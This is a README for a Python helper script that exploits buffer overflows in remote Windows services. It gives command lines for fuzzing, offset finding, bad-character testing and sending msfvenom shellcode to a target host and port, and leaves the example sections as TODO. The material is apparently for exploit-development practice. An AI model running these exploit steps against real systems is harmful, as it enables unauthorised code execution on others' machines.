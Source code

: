 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic string to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=after --exclude=000a
 ./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=before --exclude=000a --reversejmp=800
```

exploit - Sends malicious payload via buffer overflow
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --reversejmp=800 --shellcode=payload --nops=10
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Script mode (test|cyclic|write|exploit).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --badchar	: Adds bad chars before (before) or after (after) the content. Used for bad char testing.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --reversejmp	: Size in bytes to jump before the content to inject bad chars or the shell code.
* --shellcode	: Python shell code file generated using msfvenom. Do NOT include the .py extension in the parameter.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f python EXITFUNC=thread -o payload
* --nops		: Amount of nops to add before and after the shell code. Default is 0.

## Vanilla Buffer Overflow example

TODO

## SEH Overwrite example

TODO

## Egg Hunting example

TODO
